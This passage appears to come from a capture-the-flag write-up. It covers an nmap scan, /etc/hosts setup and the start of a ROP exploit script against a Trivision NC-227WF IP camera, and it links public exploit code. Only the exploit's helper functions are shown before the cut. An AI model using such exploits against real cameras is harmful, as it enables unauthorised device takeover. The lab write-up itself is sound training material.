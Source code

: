 ```shell
SF:x20Error:\x20Page\x20not\x20found</title></head>\r\n\t\t<body><h2>Acces
SF:s\x20Error:\x20Page\x20not\x20found</h2>\r\n\t\twhen\x20trying\x20to\x2
SF:0obtain\x20<b>\(null\)</b><br><p>Bad\x20request\x20type</p></body></htm
SF:l>\r\n\r\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   27.40 ms 10.8.0.1
2   27.54 ms 10.10.74.64

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.73 seconds
```

The Nmap scan reviews that the service running on port **50628** is a web service redirecting all traffic to domain **NC-227WF-HD-720P**. Therefore, we can add the domain name in `/etc/hosts`:

```shell
[niik@tuf504]-[~/] sudo echo 10.10.34.245 NC-227WF-HD-720P >> /etc/hosts
```

## ROP Attack

From the look of the Web interface on port **50628**, we are dealing with an IoT camera. More specifically _Trivision NC-22WF_.

![ARM Web Service](blog/thm/aoc_23_room2/rop_1.png)

After a quick search, I found out that the firmware for this device is also part of the [ARMX Firmware Emulation Framework](https://github.com/kevthehermit/armx). Furthermore, I found a [writeup](https://no-sec.net/arm-x-challenge-breaking-the-webs/) which explains the exploit of this particular Firmware via ROP attack. Even tho the writeup includes an exploit, the IPs are hardcoded in the shellcode, so before trying to modify the provided exploit, my team and I had a look for other existing exploits. This is when we found the following exploit [https://github.com/3sjay/sploits/blob/main/trivision_nc227wf_expl.py](https://github.com/3sjay/sploits/blob/main/trivision_nc227wf_expl.py).

```python
#!/usr/bin/python
from telnetlib import Telnet
import os, struct, sys, re, socket
import time

##### HELPER FUNCTIONS #####

def pack32(value):
    return struct.pack("<I", value)  # little byte order

def pack16n(value):
    return struct.pack(">H", value)  # big/network byte order

def urlencode(buf):
    s = ""
    for b in buf:
        if re.match(r"[a-zA-Z0-9\/]", b) is None:
            s += "%%%02X" % ord(b)
        else:
```
